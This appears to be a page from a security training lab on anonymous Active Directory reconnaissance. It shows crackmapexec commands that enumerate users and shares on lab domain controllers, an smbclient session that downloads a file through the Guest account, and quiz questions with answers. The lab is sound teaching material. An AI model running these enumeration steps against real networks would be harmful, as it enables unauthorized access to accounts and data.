

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/AD-Reconnaissance/index.html · generator: mkdocs

#Anonymous AD Reconnaissance

Once different machines and services are identified, the attacker may then begin reconnaissance of AD information. Information such as different users and accessible shares. Sometimes, this information is available to unauthenticated users, and thus without any valid credentials, an attacker may potentially access it.

First, let's try to anonymously enumerate AD users from the north.altair.local domain:
```
crackmapexec smb 192.168.122.10 --users
```
It seems that the CAPTAIN DC allows its users to be anonymously enumerated. This gives the attacker a great advantage. It also seems that one of the user's has his password in the description. Just like this, the attacker has gained an initial foothold on the domain.

We can try and do the same on other DCs (KING and CHIEF):
```
crackmapexec smb 192.168.122.20 --users
crackmapexec smb 192.168.122.30 --users
```

Hmmm, no luck here, seems like altair's and sirius' administrators don't slack off as much.


Another thing that the attacker can do without credentials is listing shares. In AD there's a 'Guest' account, often without password and with very limited privileges. One of those privileges normally is the possibility to enumerate shares. Who knows, maybe the Guest account can even access one or two.

```
crackmapexec smb 192.168.122.10 -u 'a' -p '' --shares
```
Using the Guest account, we can see the different shares available in CAPTAIN. We even have access to one of them! Let's take a look:

```
smbclient //192.168.122.10/SharingIsCaring -U guest
#Press 'ENTER' when the password is requested
ls 
get skyler.txt
exit
cat skyler.txt
```
Seems like Skyler's not very good with passwords. Maybe we can guess it down the road?

!!! question
    How many File Shares are available in CAPTAIN?
??? success "Answer"
    There are seven file shares in CAPTAIN. The guest account can read and write one of them: SharingIsCaring.

!!! question
    How many users are there in the north.altair.local domain? Which one has left their password on the description?
??? success "Answer"
    Through anonymous enumeration, the attacker found 7 user accounts. The saul.goodman user account's password can be seen in its description.
